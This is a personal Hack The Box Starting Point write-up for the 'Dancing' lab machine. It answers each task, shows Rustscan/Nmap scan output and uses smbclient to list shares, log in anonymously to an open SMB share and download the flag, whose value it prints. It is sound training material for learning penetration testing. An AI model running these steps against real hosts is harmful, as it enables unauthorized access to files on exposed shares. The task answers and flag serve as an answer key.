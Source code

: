 - - - 
created : 30-07-2025 

Tags : #veryeasy
- - - 
# Objective

Learn how to start.
# CONNECT

To attack the target machine, you must be on the same network.  
Connect to the Starting Point VPN using one of the following options.

It may take a minute for HTB to recognize your connection.  
If you don't see an update after 2-3 minutes, refresh the page.

I will use OpenVPN, so i download the config file on HTB, go in the same directory on my PC and execute the following command :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB]
└─$ sudo openvpn starting_point_mdn0x.ovpn 
[sudo] password di mdn0x: 
```

We can start our [Vulnerable Machine](../../../../3%20-%20Tags/Hacking%20Concepts/Vulnerable%20Machine.md).

Now we add the target IP to our /etc/hosts file, so we don't have to remember the [IP address](../../../../3%20-%20Tags/Hacking%20Concepts/IP%20address.md) every time :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Meow]
└─$ sudo nano /etc/hosts
```

We add a line with the given IP and a name .
# Task 1

What does the 3-letter acronym SMB stand for?

```bash
 Server Message Block
```
# Task 2

What port does SMB use to operate at?

```bash
 445
```
# Task 3

What is the service name for port 445 that came up in our Nmap scan?
## Rustscan/Nmap

We can use [Rustscan](../../../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../../../3%20-%20Tags/Hacking%20Tools/Nmap.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ rustscan -a dancing.htb -- -A  

Open 10.129.69.166:135
Open 10.129.69.166:139
Open 10.129.69.166:445
Open 10.129.69.166:5985
Open 10.129.69.166:47001
Open 10.129.69.166:49664
Open 10.129.69.166:49665
Open 10.129.69.166:49666
Open 10.129.69.166:49668
Open 10.129.69.166:49667
Open 10.129.69.166:49669

PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

The answer is **microsoft-ds**.
# Task 4

What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?

```bash
 -L
```
# Task 5

How many shares are there on Dancing?
## SMBclient

Let's check, we can use [SMBclient](../../../../3%20-%20Tags/Hacking%20Tools/SMBclient.md) to connect :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ smbclient -L 10.129.69.166
Password for [WORKGROUP\mdn0x]: (no passwd/enter)

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.69.166 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
# Task 6

What is the name of the share we are able to access in the end with a blank password?

```bash
 WorkShares
```
# Task 7

What is the command we can use within the SMB shell to download the files we find? `get`

Let's use the `-N` flag to access the directory like this :

```
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ smbclient  //10.129.69.166/WorkShares -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1753002 blocks available
```

Now we can download the files with **get** :

```bash
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

                5114111 blocks of size 4096. 1752981 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0,0 KiloBytes/sec) (average 0,0 KiloBytes/sec)
```
# Task 8

Submit root flag

Now we exit with `quit` or `ctrl + C` and `cat` the flag :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ ls
flag.txt  worknotes.txt
                                      
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664 
```

Pwned !!